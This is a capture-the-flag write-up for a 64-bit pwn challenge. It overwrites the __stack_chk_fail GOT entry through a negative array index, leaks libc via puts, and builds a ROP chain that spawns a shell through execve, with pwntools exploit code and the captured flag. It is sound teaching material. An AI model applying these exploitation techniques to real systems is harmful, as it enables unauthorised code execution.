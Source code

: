 <!-- gcc -O0 -fstack-protector -no-pie  b.c -o challenge -->

We got a 64bit binary file with a Dockerfile <br/>

![image0](assets/images/image0.png)

First we try to see the protection on the the binary, in this case only PIE is not there.<br/>

![image1](assets/images/image1.png)

There is a function which takes a message as input which has buffer size of 132. but there simple bufferoverflow of 162 bytes. so we can only be able to write upto return address + 1-2 bytes extra.
 
![alt text](assets/images/image2.png)

There is a global int64 array in which we are asked the entry number and the entry to that array. we can notice it dont check for negative entry number we can able to write above the array in memory.
There is canary protection also so we have to take care of it. We can't able to read the canary from any chance.

![alt text](assets/images/image3.png)

We can see global array is in bss segment above it there GOT table so we can write on it. above that we can't write becoz its read only segment.
So we can change GOT entry of any function.

We can't find any other function usefull , so we have to do ret2lib like attack becoz there is no usefull gadgets in this binary.

but how we are going to write our rop chain with just 1 return address space ???

We can take help of message array for this but we have somehow put below our function.

so we have to call the function twice , but there is canary.

so we have to replace stack_chk_fail got value with our vuln function. or can be done by simple ret instruction address also.

little tinkering in gdb we got -19 the value of entry number for stack_chk_fail.

```=python
funcaddr = (str(int("401192",16))).encode()
io.recvuntil(b": ")
payload =b"x"*161
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline(funcaddr)
```

so we can recall the function , now we try to build a rop chain to leak puts or any other function address.
Lets find some gadgets.

![alt text](assets/images/image4.png)

![alt text](assets/images/image5.png)

so we got two gadgets which can help us to set `rdi` register.
then simple returning to puts@plt can print the thing we want.

So I set puts@got to rdi register and then call puts@plt

Now we have to return to this rop chain safe. Now here comes the image be ready.

![alt text](assets/images/image6.png)

if we safely return from future function we have to face one issue after our first return address, our first 8 bytes comes from the rop chain we got destroyed by "\n" or 0x0a which fget adds after to input. so if overwrite the ret address next value will get overwritten by 0a which is bad.

So in this can use rop gadget `add rsp,8`

![alt text](assets/images/image7.png)

```=python
io.recvline()
io.recvuntil(b": ")
payload = ((b"x"*8)+ poprbp + putsgot + movrdi +putsplt +retadr+ p64(0x401192) + b"x"*200)[:161]
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((funcaddr))


io.recvline()
io.recvuntil(b": ")
payload = b"x"*152 + addrsp
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((funcaddr))

io.recvline()
io.recvuntil(b": ")
io.sendline(b"Hooray")
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((funcaddr))
```
so this payload will call puts and leak the address
after calling puts we return to our vuln function again to exploit further.
we got puts so after that we can to ropchain of libc in similar manner.

we can get libc from Dockerfile as it uses ubuntu latest

```=python
poprsi = p64(0x0110a4d+libcbase)
binsh = p64(0x01cb42f+libcbase)
poprdi = p64(0x010f75b +libcbase)
poprax = p64(0x00dd237+libcbase)
# poprdx = p64(0x010bf1e+libcbase)
syscall = p64(0x0288b5+libcbase)

io.recvline()
io.recvuntil(b": ")
payload = ((b"x"*8)+ poprdi + binsh + poprsi +p64(0)+poprax + p64(0x3b)+syscall+ b"x"*400)[:161]
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((chaosaddr))


io.recvline()
io.recvuntil(b": ")
payload = b"x"*152 + addrsp
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((chaosaddr))

io.recvline()
io.recvuntil(b": ")
io.sendline(b"Hooray")
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((chaosaddr))
```

there can be other easy way also after leaking libc address, like doing onegadget or somthing.

![alt text](assets/images/image8.png)

So we got our flag 

C3iCtf{Wh3r3_15_7h3_pu75_4ddr355_???7&%#*}


